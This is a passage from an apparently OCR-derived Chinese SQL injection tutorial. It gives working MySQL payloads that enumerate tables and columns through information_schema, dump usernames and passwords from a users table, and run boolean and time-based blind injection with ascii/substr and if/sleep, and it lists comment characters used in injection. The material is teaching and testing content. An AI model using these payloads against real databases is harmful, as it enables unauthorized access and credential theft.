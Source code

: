 ```
select null,null,...,table_name from information_schema.tables where table_schema=database() limit 0,1
```

（5）获取表中的字段

这里假设已经获取到表名为user

```
select null,null,...,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'
```

（6）获取各个字段值

这里假设已经获取到表名为user，且字段为username和password

```
select null,group_concat(username,password) from users
```

**2.MySQL < 5.0**

MySQL < 5.0 没有信息数据库**information_schema**，所以只能手工枚举爆破（二分法思想）。

该方式通常用于盲注。

相关函数

**length(str)** ：返回字符串str的长度

**substr(str, pos, len)** ：将str从pos位置开始截取len长度的字符进行返回。注意这里的pos位置是从1开始的，不是数组的0开始

**mid(str,pos,len)** ：跟上面的一样，截取字符串

**ascii(str)** ：返回字符串str的最左面字符的ASCII代码值

**ord(str)** ：将字符或布尔类型转成ascll码

**if(a,b,c)** ：a为条件，a为true，返回b，否则返回c，如if(1>2,1,0),返回0

**（1）基于布尔的盲注**

```
and ascii(substr((select database()),1,1))>64 /*判断数据库名的第一个字符的ascii值是否大于64*/
```

**（2）基于时间的盲注**

```
id=1 union select if(SUBSTRING(user(),1,4)='root',sleep(4),1),null,null /*提取用户名前四个字符做判断，正确就延迟4秒，错误返回1*/
```





**常用注入方式**

注释符：

```
#
-- (有空格)或--+
/**/
```
